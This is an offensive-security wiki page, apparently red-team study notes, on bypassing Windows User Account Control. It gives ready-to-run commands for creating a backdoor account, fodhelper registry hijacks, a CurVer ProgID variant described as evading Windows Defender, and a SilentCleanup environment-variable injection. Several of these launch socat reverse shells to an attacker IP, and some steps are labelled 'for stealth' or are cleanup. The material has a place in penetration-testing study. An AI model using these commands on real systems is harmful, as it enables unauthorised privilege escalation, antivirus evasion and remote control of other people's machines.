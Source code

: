 # Bypassing Windows User Account Control

For the fundementals of UAC see [[Windows-User-Account-Control]]

When creating a backdoor post exploit you may see this error:
```powershell
net user backdoor Backd00r /add
System error 5 has occurred.

Access is denied.
```

`whoami /groups` will show that the session is running in medium Integrity Levels, UAC prevents even Administrators from performing administrative tasks with filtered token.

## GUI Based Bypasses

#### msconfig

From the `Search -> Run`  open `msconfig`, using the [[Process-Hacker]] if it runs with High IL: navigate to the `Tools` tab and select `Command Prompt` 

#### azman.msc 
From the `Search -> Run`  open, using the [[Process-Hacker]] if it runs with High IL: Click the tab `Help -> Help Topics -> Right-Click -> View-Source`, which will open notepad `File -> Open C:\Windows\System32\cmd.exe`, but then when you find it in the file listing `Right-Click -> Open`

## UAC AutoElevate Processes

Some executable can auto-elevate to high IL - most of Control Panel's functionality and some native executables. Requirements for auto-elevation:
1. The executable must be signed by Windows Publisher
2. The executable must be contained in trusted directory, like %SystemRoot%/System32/ or %ProgramFiles%/

Additional requirements depending on application:
	1. Executable files must declare the autoElevate element inside their manifests - use [[Sysinternals-Sigcheck]] to check manifest.
	2. mmc.exe will auto elevate depending on the .msc snap-in taht the user requests - most Windows .msc files will auto-elevate.
	3. Windows keeps an additional list of executables that auto elevate even when not requested in the manifest. [[UAC-AutoElevate-List]]
	4. COM objects can request auto-elevation by configuring registry keys [Docs](https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker)

#### fodhelper
fodhelper is default windows executable in charge of mangaing Windows optional features, infmaously used in [Glupteba Malware](https://www.cybereason.com/blog/research/glupteba-expands-operation-and-toolkit-with-lolbins-cryptominer-and-router-exploit). Fodhelper can auto elevate when using default settings and can be exploited without GUI access. 

Create a association for ProgID for a file in current users HKCU, allow us to overrride the default system-wide association and cointrol the `command` used to open that file. To elaborate, the Programming ID(ProgID) key in the registry is associatated with the application. Windows prioritises the HKCU over the HKLM key. The command used to specify the subkey located within the registry tree  `shell/open/command`. 

```batch
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\<reverse-shell.exe> <reverse-shell-commands>""
reg add %REG_KEY% /v "DelegateExecute" /d "" /f 
reg add %REG_KEY% /d %CMD% /f
```

Delete for stealth:
```batch
reg delete HKCU\Software\Classes\ms-settings\ /f
```

Query to check:
```batch
reg query %REG_KEY% /v ""
```

## Windows Defender
Same as the above, but the final line is:
```batch
reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```

Warning this may still fail. It succeeds base whether the payload or AV executes first. It is still detected by Windows Defender. The improved version is from :[v3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)

Instead of \\Shell\\Open\\command, we use `CurVer` entry under a progID registry key, which commonly used when you have multiple instances of an application with different version running on the same system, `CurVer` points to a default version.

Modified [v3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses) version from Tryhackme.
```powershell
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

# create new progID with name .pwn  
New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force

# points to CrVer entry of ms-settings
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

It is more likely to evade Windows Defender as name of the progID that holds our payload is entirely arbitrary. Instead of Windows Defender matching a single indicator, the pointing is transitive and therefore evasive as it encapsulated in the act of point, data-wise. But AV detection methods are implemented strictly against the published exploit so: 
```batch
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```

Clean up:
```batch
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```

## UAC Enivronment Variable Expansion

If UAC is configured to `Always Notify`, similar autoElevate exploiatable application won't work. Instead scheduled tasks that can be run by any user, but executed at highest privileges available to the caller - disabling Windows Defender prior to this is required.

Using `Task Scheduler` tasks can set `When running the task, use the following user account: Run only when user is logged on; Run whether user is is logged on or not - [] Do not store password. The task will only have access to local resources` plus it has another checkbox for `Run with highest privileges`, this will use the highest Integrity Level the user has - this is an so Administrator only exploit.

For example(with` Task Scheduler` open) with `DiskCleanup`:
`Double Click Task -> GOTO -> Actions tab`; if the run on-demand command depends on enviroment variables it is possible to inject commands and then have the task execute them by starting it manually.

`%windir%` can be overriden by creating an entry in the `HKCU\Environment`
set `%windir%` to `"cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM "`

**Be sure to note the executed command to avoid any artefact interfering with anything else.  Since many Windows components rely on the %windir% environment variable, a lot of things won't properly work until you remove the registry key used for this bypass.**

```batch
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f

schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

And for the cleanup
```batch
reg delete "HKCU\Environment" /v "windir" /f
```

## UACME
Defeating Windows User Account Control by abusing built-in Windows AutoElevate backdoor. [Github](https://github.com/hfiref0x/UACME)

Run executable from command line: akagi32 [[UACME-Keys]] Param or akagi64 [[UACME-Keys]] Param. 

First parameter is number of method to use, second is optional command (executable file name including full path) to run. Second parameter can be empty - in this case program will execute elevated cmd.exe from system32 folder. See listing of keys locally: [[UACME-Keys]] or [externally](https://github.com/hfiref0x/UACME)

## Reference
[COM Elevation Moniker Documentation](https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker)
[Glupteba Malware](https://www.cybereason.com/blog/research/glupteba-expands-operation-and-toolkit-with-lolbins-cryptominer-and-router-exploit)
[v3ded Utilizing Programmatic Identifiers (ProgIDs) for UAC Bypasses](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
